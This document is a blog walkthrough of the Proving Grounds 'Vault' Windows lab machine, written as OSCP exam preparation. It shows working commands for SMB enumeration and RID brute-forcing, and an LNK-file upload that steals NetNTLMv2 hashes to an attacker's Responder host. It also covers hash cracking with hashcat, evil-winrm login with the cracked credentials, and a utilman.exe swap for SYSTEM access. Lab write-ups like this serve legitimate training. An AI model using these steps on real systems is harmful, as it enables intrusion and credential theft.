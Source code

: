```yaml
---
title: Vault Walkthrough - Proving grounds
tags: PG OSCP
categories: Windows
---
```

In this entry I will solve the proving grounds Vault machine. It is a Windows machine in the TJ Null list. My purpose in sharing this post is to prepare for OSCP exam. It is also to show you the way if you are in trouble. Please try to understand each step and take notes.

# Service enumeration

`nmap -sC -sV -p135,139,53,3389,445,3269,9389,636,593,5985,389,88,464,3268 -Pn -o targeted.txt 192.168.219.172`

![046db56c571a4d9dba18aa347f708bde.png](/assets/img/screenshots/Vault/046db56c571a4d9dba18aa347f708bde.png)

# Samba enumeration

I can not connect witha  null session, so I try with "guest" username, also I try to bruteforce usernames using rid-brute parameter.

`crackmapexec smb 192.168.219.172 --shares -u 'guest' -p '' --rid-brute`

![d9e5a4c131df2fe0861e7a1d57d7fe27.png](/assets/img/screenshots/Vault/d9e5a4c131df2fe0861e7a1d57d7fe27.png)

I try asp reproast attack with the found users but I have no luck.

The previous image shows the permissions (Read & Write), as Ii can upload files to DocumentShare, I try to find a possible attack vector and I come across with this [post](https://vegardw.medium.com/using-lnk-files-to-steal-netntlmv2-hashes-while-living-off-the-land-63a10d35711d)

![678bcbd99a2fd7a22eec9206bc3bfcc3.png](/assets/img/screenshots/Vault/678bcbd99a2fd7a22eec9206bc3bfcc3.png)

# LNK file upload to steal NTLMv2 hashes

I find this [tool](https://github.com/dievus/lnkbomb) on Github that automates all the process

I start the responder in my attacker machine ready to get the hashes and run lnkbomb.py

`sudo responder -I tun0 -v`

`python3 lnkbomb.py -t 192.168.219.172 -a 192.168.45.201 -s DocumentsShare -u guest -p '' -n DC --windows`

![5b1ad1aa74da9d7b226b9c555ed66111.png](/assets/img/screenshots/Vault/5b1ad1aa74da9d7b226b9c555ed66111.png)

I check the file has been uploaded

![1a6eeb7824884ac399fa7a9a161b1314.png](/assets/img/screenshots/Vault/1a6eeb7824884ac399fa7a9a161b1314.png)

I go back to the responder tab and the hash for anirudh user is shown

![789293711a0c18b39557a9ff0b4e6fa3.png](/assets/img/screenshots/Vault/789293711a0c18b39557a9ff0b4e6fa3.png)

Then I crack it , fort that, i copy paste the hash to a file and then run hashcat

![e807728b98806e04ba8b73d24b072830.png](/assets/img/screenshots/Vault/e807728b98806e04ba8b73d24b072830.png)

`hashcat hash.txt /usr/share/wordlists/rockyou.txt`

![2b0e143db1e92c6202312b8f94c58da2.png](/assets/img/screenshots/Vault/2b0e143db1e92c6202312b8f94c58da2.png)

After getting the password, I log in with evilwinrm to the victim machine

`evil-winrm -i vault.offsec -u 'ANIRUDH' -p 'SecureHM'`

# Privesc SeRestorePrivilege

Running `whoami /priv` I get the following:

![03379d084d672c9a4a2c0b37856217f7.png](/assets/img/screenshots/Vault/03379d084d672c9a4a2c0b37856217f7.png)

I find on [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md) a way to escalate

![1d81924e1788e9a749e6a4824eff0081.png](/assets/img/screenshots/Vault/1d81924e1788e9a749e6a4824eff0081.png)

I run

`mv C:\Windows\System32\utilman.exe C:\Windows\System32\utilman.old`

`mv C:\Windows\System32\cmd.exe C:\Windows\System32\utilman.exe`

Then, connect though rdp and do WIN+U, a cmd will appear with Adminsitrator privileges

`rdesktop 192.168.219.172`

![1604b85701f435f32d8bfcb13422dcdc.png](/assets/img/screenshots/Vault/1604b85701f435f32d8bfcb13422dcdc.png)

Pwn3d! :D
